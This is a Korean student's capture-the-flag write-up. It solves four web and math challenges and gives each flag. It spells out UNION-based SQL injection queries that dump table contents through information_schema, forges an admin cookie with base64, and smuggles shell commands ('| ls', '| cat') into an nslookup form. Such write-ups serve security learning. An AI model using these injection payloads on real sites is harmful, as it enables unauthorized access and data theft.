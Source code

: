 고등해커 Write_Up (Young Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

#### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

위 사진과 같이 and가 먹히는걸 확인할 수 있다.
#### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> no=3 and 3 order by 1
> 
> no=3 and 3 order by 2
> 
> no=3 and 3 order by 3 여기서 부터 오류

따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> no=3 union select 1,info from information_schema.processlist order by 1

쿼리 출력을 이용하여 컬럼명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
(order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![fleg 알아내기!](./선린의털(5).PNG)

> no=3 union select 1, group_concat(content) from contents order by 1

이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> sunrin 으로 로그인하여 f12로 쿠키 확인 
> > username값 확인 (base64 인코딩 되어있음)
> >> admin (base64로 인코딩)해서 username 값에 넣기

![쿠키 확인](./Basic_Login(1).PNG)

----------------------------------

개발자 도구로 username 변수 값 확인

base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

-------------------------------

admin을 base64로 인코딩하여 username 변수에 대입

새로고침 -> clear

### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> 이 문제와 비슷한 문제를 본적이 있음
> > 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

-----------------------------

> 아무 값 | ls

or 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> 아무 값 | cat flag 파일 이름

### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> nc로 접속해보니 일반적인 방정식 문제였다.
> > 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

##### 계수 입력하면 풀어주는 코드

```{.python}
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./Easy_Math_Game(3).PNG)

### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}